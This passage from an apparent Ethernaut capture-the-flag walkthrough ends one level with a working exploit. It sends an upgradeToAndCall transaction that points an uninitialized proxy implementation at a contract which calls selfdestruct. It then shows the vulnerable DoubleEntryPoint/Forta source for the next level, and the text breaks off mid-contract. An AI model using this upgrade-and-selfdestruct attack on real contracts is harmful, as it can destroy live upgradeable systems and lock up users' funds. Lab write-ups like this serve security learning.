 > await sendTransaction({
>     from: player,
>     to: engine,
>     data: web3.eth.abi.encodeFunctionSignature("upgradeToAndCall(address,bytes)") + web3.eth.abi.encodeParameters(["address", "bytes"], ["0x47202da4b8205cf45a9919a74d0e5b36736875fd", web3.eth.abi.encodeFunctionSignature("destruct()")]).substring(2)
> });
> ```
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract engine {
>     address payable own;
>     
>     constructor() public {
>         own = payable(msg.sender);
>     }
> 
>     function destruct() external {
>         selfdestruct(own);
>     }
> }
> ```

<hr>

## 26 DoubleEntryPoint
We have to figure the bug inthe `CryptoVault` and register our own `detection bot` to `raise alerts` when the bug is been exploited.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface DelegateERC20 {
  function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;
    function notify(address user, bytes calldata msgData) external;
    function raiseAlert(address user) external;
}

contract Forta is IForta {
  mapping(address => IDetectionBot) public usersDetectionBots;
  mapping(address => uint256) public botRaisedAlerts;

  function setDetectionBot(address detectionBotAddress) external override {
      require(address(usersDetectionBots[msg.sender]) == address(0), "DetectionBot already set");
      usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
  }

  function notify(address user, bytes calldata msgData) external override {
```